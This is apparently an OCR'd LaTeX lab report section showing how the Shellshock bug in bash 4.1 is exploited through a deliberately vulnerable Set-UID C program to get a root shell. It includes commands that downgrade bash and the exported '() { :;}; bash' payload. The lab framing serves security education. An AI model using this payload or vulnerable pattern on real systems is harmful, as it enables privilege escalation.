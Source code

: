 \documentclass[a4paper,12pt]{article}
\begin{document}
\subsection{Exploiting \texttt{Set-UID} Program}
For this section, the shellshock vulnerability will be exploited with a \texttt{Set-UID} program to obtain root access to the system. For this, \texttt{bash} must be downgraded to 4.1 as 4.2 has fixed the bug and the exploit will fail. The following commands are used to install \texttt{bash} 4.1 and make a backup of the current \texttt{bash}.
\begin{verbatim}
$ su
# mv /bin/bash /bin/bashbackup
# wget http://ftp.gnu.org/gnu/bash/bash-4.1.tar.gz
# tar xf bash-4.1.tar.gz
# cd bash-4.1
# ./configure
# make & make install
# ln -s /usr/local/bin/bash /bin/bash
# ln -s /bin/bash /bin/sh
# exit
\end{verbatim}
We create and compile the following \texttt{Set-UID} program which executes the \texttt{ls} command in \texttt{/bin}. It is also known that \texttt{system} will call \texttt{/bin/sh -c} to run the command.
\begin{verbatim}
#include <stdio.h>

void main()
{
    setuid(geteuid());
    system("/bin/ls -l")
}
\end{verbatim}
Before the program is executed, the shellshock function is exported. A simple command is issued in Terminal that exploits this vulnerability.
\begin{verbatim}
export foo = '() { :;}; bash'
\end{verbatim}
Due to how \texttt{system} works, the function \texttt{foo} in the environment variable will also be parsed and this will result in bash being called with root privileges when the vulnerable program is executed.
\begin{figure}[H]
	\centering
	\texttt{[image: setuidhshellshock]}
	\caption{Shellshock Exploit with Absolute Address}
	\label{fig:setuidhshellshock}
\end{figure}
\noindent Of course, when the line \texttt{setuid(geteuid())} is removed, the exploit will not work as euid of the parent process and the child process is different. As such, the function will not be imported and the attack will not succeed.
\begin{figure}[H]
	\centering
	\texttt{[image: noprivesc]}
	\caption{No Privilege Escalation}
	\label{fig:noprivesc}
\end{figure}
\noindent The part of the code that implements the safeguard is shown in Figure 5, where it is checked before the function is imported.
\end{document}

